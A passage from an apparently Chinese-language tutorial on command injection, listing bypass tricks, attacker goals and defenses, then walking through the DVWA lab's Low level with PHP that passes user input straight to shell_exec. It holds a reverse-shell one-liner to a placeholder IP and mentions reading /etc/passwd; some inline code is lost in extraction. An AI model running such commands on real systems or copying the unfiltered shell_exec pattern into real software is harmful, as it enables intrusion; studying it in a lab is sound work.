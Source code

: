 1. 利用 shell 特性：如 、、、|&&||;  
  
1. **双重编码或截断：**  
  
1. %2520 解码两次为 （空格）%20  
  
1. **环境变量与别名替代：**  
  
1. 使用  之类的路径直接执行/bin/sh  
  
1. 使用环境变量绕过路径限制  
  
### 五、利用目的  
- 查看敏感文件（如 、）/etc/passwd/flag  
  
- 反弹 Shell (bash -i >& /dev/tcp/IP/PORT 0>&1  
)  
  
- 安装木马、远控  
  
- 横向移动或提权  
  
### 六、防御措施  
- **永远不要信任用户输入**  
  
- 对参数进行**白名单校验**  
  
- 避免使用系统命令，使用语言自带功能替代  
  
- 最小权限原则：Web 服务用户权限最小化  
  
- 使用 WAF 检测异常请求  
  
# DVWA 靶场的 Command Injection（命令注入）模块。  
## low级别  
  
1.先从Low级别开始，low级别的代码接收了用户输⼊的ip，服务器通过判断操作系统执行不同 ping 命令。但是这⾥对⽤户输⼊的 ip 并没有进行任何的过滤，所以存在可利⽤的命令执行漏洞。  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkRLGghDq1eNLnDOCuIibgBHAM5N0ok7icP1OfQN3icdtnedjWO9H6CuQAWiaw9tDIYmjwLwva7Z4T0www/640?wx_fmt=png&from=appmsg "")  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/dWDX1PL0ibkRLGghDq1eNLnDOCuIibgBHAZQsGxFYncRrib1t9r6oLKnmcknG0qHSRAyS6TnNhKKrdiaMMk3qB4Idw/640?wx_fmt=jpeg&from=appmsg "")  
  
## 漏洞点分析  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkRLGghDq1eNLnDOCuIibgBHAb7egDNUDiaicvJkmXUpdhY3BXV0AFyGiarnwgYASzFl2YYTlNcLWnpjlw/640?wx_fmt=png&from=appmsg "")  
  
**代码关键部分：**  
```
$target = $_REQUEST[ 'ip' ]; 
...
$cmd = shell_exec( 'ping  -c 4 ' . $target );

```  
- 用户可控参数  被直接拼接到 shell 命令中，然后传给  函数。$targetshell_exec()  
  